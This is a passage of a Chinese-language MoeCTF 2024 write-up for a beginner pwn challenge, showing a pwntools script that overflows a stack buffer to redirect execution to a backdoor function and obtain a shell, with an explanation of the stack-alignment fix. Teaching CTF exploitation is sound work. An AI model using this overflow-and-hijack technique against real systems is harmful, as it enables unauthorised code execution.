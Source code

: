 在程序所在目录编写 Python 脚本

```python
# File: pwnit.py

from pwn import *                 # pwntools
io = process('./pwn')             # 启动程序
backdoor_address = ...            # 刚才获得的 `backdoor` 地址
backdoor_address += 1             # 施法
payload  = cyclic(0x10)           # 填满 `name`
payload += cyclic(0x8)            # 填满暂存的 `rbp`
payload += p64(backdoor_address)  # 篡改返回地址
io.sendlineafter(b'?\n', payload) # 待输出至 `?\n` 后输入 payload
io.interactive()                  # 收获成果
```

。在程序所在目录执行

```sh
$ python pwnit.py
```

，成功 getshell。🎉

实际上你需要用 `io = connect('<IP>', <端口>)` 替换 `io = process('./pwn')` 以攻击远程环境（相当于 `nc` 连接）。

> [!NOTE]
>
> ##### `backdoor_address += 1` 是个啥？
>
> 你可以试着去掉这行再运行看看，程序运行时触发 SIGSEGV（段错误）。这是 Pwn 初学者必踩一次的坑。用 GDB 调试运行（pwntools `gdb` 模块能帮到你），程序在 `system` 函数中这个指令处崩溃：
>
> ```assembly
> movaps xmmword ptr [rsp + 0x50], xmm0
> ```
>
> 其实是 `movaps` 指令要求目标地址（此处为 `rsp + 0x50`）16 字节对齐（尾数为 0）导致的。通过将劫持的地址 +1，跳过 `backdoor` 中的 `push rbp`（该指令机器码长度 1 字节）从而使 `rsp` 16 字节对齐。
>
> 类似的解决方案是在 ROP 调用链中插入一个空 gadget（仅 `ret`），使 `rsp` 16 字节对齐。

## 感谢

感谢你认真读到这里，感谢所有让 MoeCTF 2024 成为可能的人。😉



作者：RiK，本文以 [CC BY-SA 4.0](https://creativecommons.org/licenses/by-sa/4.0/deed.zh-hans) 协议共享。（参考资料均已在文中引用）
